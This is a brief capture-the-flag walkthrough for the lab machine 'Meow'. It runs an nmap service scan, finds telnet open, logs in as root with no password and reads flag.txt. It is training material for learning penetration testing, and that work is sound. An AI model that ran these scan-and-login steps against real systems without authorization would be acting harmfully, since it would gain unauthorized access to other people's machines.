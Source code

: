 1. **Scan all the ports and determine service and version of open ports**
```bash
nmap -sV [ip machine]
```
--> port 23/tcp - open - Telnet


2. **Connect to the machine via "telnet"**
```bash
telnet [ip machine]
	Meow login: root
```
--> **MACHINE PWNED!** 


3. **Capture the flag**
```bash
cat flag.txt
```

